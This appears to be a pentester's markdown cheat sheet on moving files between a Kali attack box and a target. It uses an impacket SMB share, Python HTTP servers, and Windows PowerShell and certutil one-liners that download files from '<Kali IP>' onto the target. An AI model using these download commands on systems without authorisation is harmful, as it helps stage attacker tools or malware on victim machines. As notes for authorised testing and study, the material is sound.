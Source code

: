 # File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

## HTTP - from Kali to target

```
cd <path>
sudo python -m SimpleHTTPServer 80
```
or
```
cd <path>
sudo python3 -m http.server 80
```

### download to Windows

Powershell
```
Invoke-WebRequest -Uri 'http://<Kali IP>/<filename>' -OutFile <filename> 
```

Certutil
```
certutil -urlcache -f 'http://<Kali IP>/<filename>' <path_destiny><filename>
```



## Links
- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
- https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/
- https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html